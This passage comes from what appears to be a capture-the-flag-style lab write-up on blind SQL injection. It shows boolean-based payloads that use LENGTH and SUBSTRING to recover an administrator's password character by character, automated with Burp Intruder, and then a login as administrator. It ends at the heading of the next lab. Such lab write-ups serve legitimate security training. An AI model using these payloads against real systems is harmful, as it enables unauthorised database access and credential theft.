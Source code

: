 ```
' AND LENGTH((SELECT username from users where username='administrator')) = 13-- -
```

As we can see that it works.

![](/assets/images/SQLi/Pasted%20image%2020250930162851.png)

Now I used this query to find the lenght of the password.

```
' AND LENGTH((SELECT password from users where username='administrator')) = XX-- -;
```

I used a wordlist of numbers 1-25 and ran these using Burp intruder.

![](/assets/images/SQLi/Pasted%20image%2020250930163328.png)

As we can see the password is 20 characters long.

![](/assets/images/SQLi/Pasted%20image%2020250930163218.png)

Next we need to use the `SUBSTRING` function to extract a single character at a particular location and check if it is equal to what character from the wordlist. 

```
' AND ((SELECT SUBSTRING(password,1,1) from users where username='administrator')) = 'XXX'-- -
```

I ran this using a wordlist containing all characters, A-Z and a-z and 0-9 using Intruders.

![](/assets/images/SQLi/Pasted%20image%2020250930164504.png)

It works as we see that the first character of the password is `n`.

![](/assets/images/SQLi/Pasted%20image%2020250930164352.png)

I then ran this query via intruder. Where each character is checked against each position.

```
' AND ((SELECT SUBSTRING(password,XXX,1) from users where username='administrator')) = 'xxx'-- -
```

We use the Cluster bomb attack.

![](/assets/images/SQLi/Pasted%20image%2020250930165341.png)

Sorting the responses reveals each character of the password.

![](/assets/images/SQLi/Pasted%20image%2020250930165042.png)

Logging in with the credentials works and the lab gets solved.

![](/assets/images/SQLi/Pasted%20image%2020250930165310.png)

### 12. Blind SQL injection with conditional errors

Payload that worked:
